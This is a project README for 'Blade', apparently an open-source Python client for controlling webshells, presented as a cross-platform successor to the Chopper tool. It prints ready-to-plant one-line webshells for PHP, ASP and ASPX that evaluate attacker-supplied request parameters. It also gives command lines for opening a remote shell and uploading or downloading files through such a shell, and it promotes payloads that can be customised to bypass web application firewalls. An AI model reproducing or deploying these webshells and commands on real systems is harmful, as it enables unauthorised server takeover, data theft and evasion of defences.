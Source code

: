 ##Blade
Blade is a webshell connection tool based on console, currently under development and aims to be a choice of replacement of Chooper (中国菜刀). Chooper is a very cool webshell client with widly typies of server side scripts supported, but Chooper can only work on Windows opreation system, so this is the motivation of create another "Chooper" supporting Windows, Linux & Mac OS X. Blade is based on Python, so it allows users to modify the webshell connection payloads so that Blade can bypass some specified WAF which Chooper can not.
##Major functions
Manage a web server with only one-line code on it, just like: <?php @eval($_REQUEST["cmd"]); ?>

PHP, ASP, ASPX & JSP supported.

Terminal Console provided.

File management & Dadabase management.
##Features
Cross-plaform supported (Python needed)

Customizable WAF bypass payloads

Compatible with Chooper's server side scripts
##Server side scripts examples
PHP:
<?php @eval($_REQUEST["cmd"]); ?>

ASP:
<%eval request("cmd")%>

ASPX:
<%@ Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
##Usage
Get a shell:

 python blade.py -u http://localhost/shell.php -s php -p cmd --shell

Get a shell with longer timeout (i.e. for windows):

python blade.py -u http://localhost/shell.aspx -s asp -p cmd --shell -t 60

Download a file:

python blade.py -u http://localhost/shell.php -s php -p cmd --pull remote_path local_path

Upload a file:

python blade.py -u http://localhost/shell.php -s php -p cmd --push local_path remote_path
##Current issues
Server side scripts supporting is not completed, currently support PHP, ASP and ASPX
ASPX file upload/download is still under development

Database management function is not completed, so can not connect databases

##TODO
Implment JSP

Fix file handling

##Future developent
Beacuse I am busy sometimes, the progress of development may be a bit slow. If anyone intrest this project, welcome fork!
